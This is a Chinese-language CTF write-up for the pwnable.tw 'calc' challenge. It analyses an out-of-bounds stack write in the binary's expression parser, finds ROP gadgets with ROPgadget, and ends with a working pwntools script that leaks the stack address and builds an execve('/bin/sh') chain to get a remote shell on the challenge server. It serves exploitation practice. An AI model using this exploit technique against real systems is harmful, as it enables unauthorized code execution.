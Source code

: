 ﻿栈溢出ROP链利用
========================================

分析目标
----------------------------------------
+ 程序：`calc.zip <..//_static//calc.zip>`_
+ 来源：https://pwnable.tw/challenge/
+ 程序信息
	::
	
		file calc
		calc: ELF 32-bit LSB executable, Intel 80386, version 1 (GNU/Linux), statically linked, 
			for GNU/Linux 2.6.24, BuildID[sha1]=26cd6e85abb708b115d4526bcce2ea6db8a80c64, not stripped
			
		└─# checksec --file=calc
		RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      Symbols         FORTIFY Fortified       Fortifiable     FILE
		Partial RELRO   Canary found      NX enabled    No PIE          No RPATH   No RUNPATH   2256) Symbols     No    0               0               calc
		
		注：32位静态链接程序


漏洞分析
----------------------------------------
::
	
	IDA打开main：
	int __cdecl main(int argc, const char **argv, const char **envp)
	{
	  ssignal(14, timeout);
	  alarm(60);
	  puts("=== Welcome to SECPROG calculator ===");
	  fflush(stdout);
	  calc();
	  return puts("Merry Christmas!");
	}
	
	calc函数：
	unsigned int calc()
	{
	  int v1; // [esp+18h] [ebp-5A0h]
	  int v2[100]; // [esp+1Ch] [ebp-59Ch]
	  char s[1024]; // [esp+1ACh] [ebp-40Ch]
	  unsigned int v4; // [esp+5ACh] [ebp-Ch]

	  v4 = __readgsdword(0x14u);
	  while ( 1 )
	  {
		bzero(s, 0x400u);
		if ( !get_expr((int)s, 1024) )
		  break;
		init_pool(&v1);
		if ( parse_expr((int)s, &v1) )
		{
		  printf("%d\n", v2[v1 - 1]);
		  fflush(stdout);
		}
	  }
	  return __readgsdword(0x14u) ^ v4;
	}
	分析栈变量：
	输入的数据存储在s变量，v2保存了计算结果。
	[esp+18h]	v1[xx xx xx xx]=>0x4		==>索引（v2中操作数个数）
	[esp+1Ch]	v2[xx .. .. xx]=>0x64		==>保存结果
	[esp+1ACh]	s [xx .. .. xx]=>0x400		==>输入表达式
	[esp+5ACh]	v4[xx xx xx xx]=>0x4		==>cannary
	init_pool函数用于清空v1,v2。
	parse_expr函数参数：s，v1。
	parse_expr函数主体逻辑：
	for ( i = 0; ; ++i )
	{
		if ( (unsigned int)(*((char *)s + i) - 48) > 9 )
		{
			//符号和结尾0进入
			strcmp(s1, "0")		//这里是判断第一个数是否为0，不允许为0
			v9 = atoi(s1);			//这里是将第一个数转换为数字
			if ( v9 > 0 )		//如果这个数大于0，则放入结果空间里，结果索引*v1加1
			{
				v4 = (*v1)++;
				v1[*v1 + 1] = v9;		//注意此处代码F5有问题，v4应该改为*v1
			}
			if ( *((_BYTE *)s + i) && (unsigned int)(*((char *)s + i + 1) - 48) > 9 )	//不允许出现两个符号
			switch ( *((char *)s + i) )		//运算符比对
			eval函数逻辑：
				v2[*v1-2]=v2[*v1-2] #(即运算符) v2[*v1-1]
		}
	}
	漏洞存在于
	if ( v9 > 0 )
	{
		v4 = (*v1)++;
		v1[*v1 + 1] = v9;
	}	
	输入+9过程：
	eval入口：
	0xffffcbf8  0000 0000 0000 0000 0000 0000 0000 0000  ................
	0xffffcc08  0100 0000 0900 0000 0000 0000 0000 0000  ................
	0xffffcc18  0000 0000 0000 0000 0000 0000 0000 0000  ................
	计算：
	v2[*v1-2]=v2[-1]=1
	v2[*v1-1]=v2[0]=9
	eval出口：
	v2[*v1-2]=v2[*v1-2]+v2[*v1-1]
	即v2[-1]=0xa
	注：出口前v2[*v1-2]进行了一次减1操作，即v2[-1]=v2[-1]-1=0x9
	0xffffcbf8  0000 0000 0000 0000 0000 0000 0000 0000  ................
	0xffffcc08  0900 0000 0900 0000 0000 0000 0000 0000  ................
	0xffffcc18  0000 0000 0000 0000 0000 0000 0000 0000  ................
	结果：v2[*v1-1]=v2[8]=0
	
	发现在eval计算过程中数组v2进行了一次越界写（只能写前一个dword）；
	输入+N，打印结果为v2[N-1]的值，N如果超过一定长度，读取栈上数据。
	
	读取返回地址：
	计算偏移(0x59c+0x4)/4=360,N应该为361
	+361
	134517913
	即0x8049499，main函数中调用calc下一条指令。
	
	输入+9+10过程：
	eval入口：
	0xffffcbf8  0000 0000 0000 0000 0000 0000 0000 0000  ................
	0xffffcc08  0100 0000 0900 0000 0000 0000 0000 0000  ................
	0xffffcc18  0000 0000 0000 0000 0000 0000 0000 0000  ................
	计算：
	v2[*v1-2]=v2[-1]=1
	v2[*v1-1]=v2[0]=9
	eval出口：
	0xffffcbf8  0000 0000 0000 0000 0000 0000 0000 0000  ................
	0xffffcc08  0900 0000 0900 0000 0000 0000 0000 0000  ................
	0xffffcc18  0000 0000 0000 0000 0000 0000 0000 0000  ................
	结果：v2[*v1-1]=v2[8]=0
	if ( v9 > 0 )
	{
		v4 = (*v1)++;
		v1[*v1 + 1] = v9;
	}
	注意此代码将10放在v1[*v1+1]=v1[10]=0xa
	eval入口：
	0xffffcc08  0a00 0000 0900 0000 0000 0000 0000 0000  ................
	0xffffcc18  0000 0000 0000 0000 0000 0000 0000 0000  ................
	0xffffcc28  0000 0000 0000 0000 0a00 0000 0000 0000  ................
	计算：
	v2[*v1-2]=v2[8]=0
	v2[*v1-1]=v2[9]=0xa
	eval出口：
	- offset -   0 1  2 3  4 5  6 7  8 9  A B  C D  E F  0123456789ABCDEF
	0xffffcc08  0900 0000 0900 0000 0000 0000 0000 0000  ................
	0xffffcc18  0000 0000 0000 0000 0000 0000 0000 0000  ................
	0xffffcc28  0000 0000 0a00 0000 0a00 0000 0000 0000  ................
	结果：v2[*v1-1]=v2[8]=0xa=10
	总结：+x+y进行了两次数据写入操作:v2[x]=#,v2[x+1]=y
	
漏洞利用
----------------------------------------
+ ROP
	::
		
		ROPgadget --binary calc --string "/bin/sh"
		Strings information
		============================================================
		没有找到字符串
	
		ROPgadget --binary calc --only 'int'
		Gadgets information
		============================================================
		0x08049a21 : int 0x80

		Unique gadgets found: 1
		
		需要找到一个可用的ROP链执行execve(“/bin/sh”,0,0)的系统调用，进而getshell。
		执行有三个参数的系统调用需要控制4个寄存器，分别是eax，ebx，ecx，edx。
		
		# ROPgadget --binary ./calc --only 'pop|ret' | grep 'eax' 
		0x0809ec3a : pop eax ; pop ebx ; pop esi ; pop edi ; ret
		0x0805c34b : pop eax ; ret
		0x080e0008 : pop eax ; ret 0xfff7
		0x0809ec39 : pop es ; pop eax ; pop ebx ; pop esi ; pop edi ; ret
		
		# ROPgadget --binary ./calc --only 'pop|ret' | grep 'ecx'
		0x080701d1 : pop ecx ; pop ebx ; ret
		0x080701d0 : pop edx ; pop ecx ; pop ebx ; ret
		
		# ROPgadget --binary ./calc --only 'int'
		0x08049a21 : int 0x80
		
		构造rop链指令：
		0x0805c34b : pop eax ; ret
		0x080701d0 : pop edx ; pop ecx ; pop ebx ; ret
		0x08049a21 : int 0x80
		
		保存ebp的栈的地址：
		+360
		-11800，即0xFFFFD1E8
		
+ EXP
	::
	
		from pwn import *
		import binascii
		context(os='linux',arch='i386',log_level='debug')
		io = remote("chall.pwnable.tw",10100)

		# /bin/sh and gadget
		a = int(binascii.b2a_hex(str.encode('/bin')[::-1]),16)
		b = int(binascii.b2a_hex(str.encode('/sh')[::-1]),16)
		pop_eax = 0x0805c34b
		pop_edx_ecx_ebx = 0x080701d0
		int_80 = 0x08049a21

		# leak ebp
		io.recv()
		io.sendline("+360")
		ebp = int(io.recv())-0x20
		binsh_addr = ebp+8*4

		# attack
		ROP_chain = [pop_eax,11,pop_edx_ecx_ebx,0,0,binsh_addr,int_80,a,b]
		for i in range(361,370):
			num = i - 361
			io.sendline("+"+str(i))
			tmp = int(io.recvline())
			if tmp<ROP_chain[num]:
				io.sendline("+"+str(i)+"+"+str(ROP_chain[num]-tmp))
			else:
				io.sendline("+"+str(i)+"-"+str(tmp-ROP_chain[num]))
			io.recvline()

		io.sendline()
		io.interactive()
		